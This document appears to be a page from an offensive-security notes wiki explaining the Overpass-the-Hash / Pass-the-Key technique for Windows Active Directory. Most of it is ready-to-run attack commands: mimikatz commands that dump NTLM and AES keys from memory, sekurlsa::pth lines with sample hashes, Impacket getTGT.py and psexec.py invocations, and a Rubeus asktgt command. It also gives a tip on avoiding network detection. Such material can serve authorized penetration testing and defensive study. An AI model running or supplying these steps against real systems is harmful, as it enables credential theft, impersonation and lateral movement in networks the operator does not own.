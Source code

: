 # Overpass the Hash /                Pass the Key

This attack aims to <mark style="color:green;"></mark> <mark style="color:green;"></mark><mark style="color:green;">**use the user NTLM hash to request Kerberos tickets**</mark>, as an alternative to the common Pass The Hash over NTLM protocol. Therefore, this could be especially <mark style="color:green;"></mark> <mark style="color:green;"></mark><mark style="color:green;">**useful in networks where NTLM protocol is disabled**</mark> <mark style="color:green;">**and only Kerberos is allowed**</mark> as authentication protocol.

In the case of over-pass-hash, we are generating the things that would get us that original TGT in memory on the windows client then fronting up to the domain controller for a service ticket to the thing we want access to, and automatically getting the TGT back as part of the exchange so that we can go on and request all access we want to other things.

{% hint style="info" %}
In order to perform this attack, the **NTLM hash (or password) of the target user account is needed**. Thus, once a user hash is obtained, a TGT can be requested for that account. Finally, it is possible to **access** any service or machine **where the user account has permissions**.
{% endhint %}

## <mark style="color:red;">Grab the Target User Hash</mark>

In the target machine run this and dump the NTLM hash of the 'target-user' account:

```
privilege::debug
sekurlsa::ekeys
Sekurlsa::logonpasswords
```

With the help of ekeys you will able to fetch all keys NTLM (RC4), AES128, AES256 key

## <mark style="color:red;">Overpass the Hash</mark>

So with the help of sekurlsa::pth command we try to use ase256 key or aes128 for Kerberos ticket, it is difficult to detect because it is the more common and secure key used in encryption.

Using our new hash, we issue the command:

```c
sekurlsa::pth /user:target-user /domain:megabank.local /ntlm:89551acff8895768e489bb3054af94fd

# example
sekurlsa::pth /user:Administrator /domain:ignite.local /aes256:9c83452b5dcdca4b0bae7e89407c700bed3153c31dca06a8d7be29d98e13764c
sekurlsa::pth /user:Administrator /domain:ignite.local /aes128:b5c9a38d8629e87f5da0a0ff2c67f84c
```

#### If you will use NTLM (RC4), ASE128, ASE256 simultaneously for injecting into Kerberos ticket, this step is more secure and undetectable in the network.

```c
sekurlsa::pth /user:Administrator /domain:igntie.local /ntlm:a29f7623fd11550def0192de9246f46b /aes128:b5c9a38d8629e87f5da0a0ff2c67f84c /aes256:9c83452b5dcdca4b0bae7e89407c700bed3153c31dca06a8d7be29d98e13764c
sekurlsa::pth /user:Administrator /domain:igntie.local /ntlm:a29f7623fd11550def0192de9246f46b
```

#### We should be able to now move from our shell that was running as whomever , to a shell with 'target-user' credentials.

we can use getTGT.py script from impacket toolkit as well:

### <mark style="color:orange;">Impacket</mark>

```python
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```

You can **specify** `-aesKey [AES key]` to specify to use **AES256**. You can also use the ticket with other tools like: as smbexec.py or wmiexec.py

```python
python getTGT.py -dc-ip 192.168.1.105 -hashes :32196b56ffe6f45e294117b91a83bf38 ignite.local/Administrator
```

with the help of above command, you will be able to request Kerberos authorized ticket in the form of ccache whereas with the help of the following command you will be able to inject the ticket to access the resource.

```python
export KRB5CCNAME=Administrator.ccache; psexec.py -dc-ip 192.168.1.105 -target-ip 192.168.1.105 -no-pass -k ignite.local/Administrator@WIN-S0V7KMTVLD2.ignite.local
```

### <mark style="color:orange;">Rubeus</mark>

{% embed url="https://github.com/GhostPack/Rubeus" %}

```
Rubeus.exe asktgt /domain:igntie.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt
```

